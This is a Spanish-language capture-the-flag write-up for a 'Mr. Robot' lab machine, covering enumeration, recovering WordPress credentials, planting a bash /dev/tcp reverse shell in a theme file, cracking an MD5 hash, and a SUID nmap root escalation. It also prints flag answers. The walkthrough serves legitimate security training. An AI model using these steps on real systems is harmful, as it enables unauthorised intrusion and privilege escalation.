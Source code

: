 # Reto 5 - Mr. Robot
Herramientas utilizadas:
- nmap
- netcat
- john the ripper
- gobuster
- hash-identifier

Este reto consiste en aplicar técnicas de hacking para encontrar tres banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta ```nmap``` para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.
```
nmap 10.32.2.48 -sCV -Pn -p-
```
```
Host is up (0.084s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn\'t have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
```
Podemos observar que encontramos tres puertos abiertos. Procedemos a revisar la web que se exporta por el puerto 80.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Utilizamos la herramienta ```gobuster``` para listar los directorios existentes en la web.
```
gobuster dir --url http://10.32.2.48/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

===============================================================
/images (Status: 301)
/video (Status: 301)
/rss (Status: 301)
/image (Status: 301)
/blog (Status: 301)
/0 (Status: 301)
/audio (Status: 301)
/sitemap (Status: 200)
/admin (Status: 301)
/feed (Status: 301)
/robots (Status: 200)
/dashboard (Status: 302)
/login (Status: 302)
/phpmyadmin (Status: 403)
/intro (Status: 200)
/license (Status: 200)
/wp-content (Status: 301)
/css (Status: 301)
/js (Status: 301)
```

Accedemos al directorio **/robots** y nos encontramos con dos ficheros de interés. Listamos el contenido del fichero **key-1-of-3.txt** y encontramos la primera flag del reto.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-2.png" /> </p>

Primera flag: ```flag{073403c8a58a1f80d943455fb30724b9}```


Revisando otros directorios encontramos que en ```/license``` se mostraba un mensaje que parecía no muy relevante. Al observar al final de la web, nos mostraban una cadena en base64.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-3.png" /> </p>

Decodificamos la cadena para llevarla a texto claro y obtenemos un posible usuario y contraseña.
```
echo "ZwxsaW90kVSMjgtMDY1Mgo=" | base64 -d
  elliot:ER28-0652
```
Accedemos al panel de login de Wordpress y probamos las credenciales encontradas.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-4.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-5.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-12.png" /> </p>

Ya logueados nos aprovechamos del apartado **Appearance** para subir una **reverse shell** y ganar acceso a la máquina. Agregamos la línea de código siguiente:
```
bash -i >& /dev/tcp/10.8.144.236/4142 0>&1
```
Posteriormente nos ponemos en escucha en nuestra máquina local con ```netcat``` y accedemos al archivo donde se encuentra el código agregado para ganar acceso a la máquina víctima. ```URL:  http://10.32.2.48/wp-content/themes/twentyfifteen/archive.php```
```
nc -nlvp 4142
```

Dentro de la máquina víctima procedemos a listar el contenido del directorio **/home/robot**

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-6.png" /> </p>

Nótese que el archivo de la flag solo puede ser leído por el propietario. Revisamos el fichero **password.raw-md5** y encontramos unas credenciales potenciales. 

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-7.png" /> </p>

Utilizamos la herramienta ```hash-identifier``` proporcionandole la contraseña encontrada y nos devuelve que se encuentra cifrada con MD5, por lo que tubimos que descifrarla utilizando la herramienta ```John The Ripper```

```
john --format=raw-md5 --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
  
  Using default input encoding: UTF-8
  Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
  Warning: no OpenMP support for this hash type, consider --fork=2
  Press 'q' or Ctrl-C to abort, almost any other key for status

  abcdefghijklmnopqrstuvwxyz (robot)
```

En este punto nos podemos convertir en el usuario robot proporcionando la contraseña encontrada y listamos la segunda flag del reto.
```
su robot
```

```
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
Segunda flag: flag{822c73956184f694993bede3eb39f959}

Para encontrar la tercera y última flag del reto necesitamos escalar privilegios para convertirnos en root. Buscamos por permisos SUID y encontramos que el binario nmap está corriendo con permisos SUID.
```
find / -perm -u=s -type f 2>/dev/null
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-8.png" /> </p>

Buscamos en la pagina ```https://gtfobins.github.io/``` si podemos escalar privilegios a través de la herramienta nmap con permisos de SUID y efectivamente, existe una vía ejecutando comandos.

```
nmap --interactive
nmap> sh!
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-9.png" /> </p>

Ejecutamos los comandos en la maquina víctima y nos convertimos en root. Accedemos al directorio **/root** y encontramos el fichero que contiene la última flag.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-10.png" /> </p>

Listamos el contenido del fichero y obtenemos la flag.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-11.png" /> </p>

Última flag: ```flag{04787ddef27c3dee1ee161b21670b4e4}```

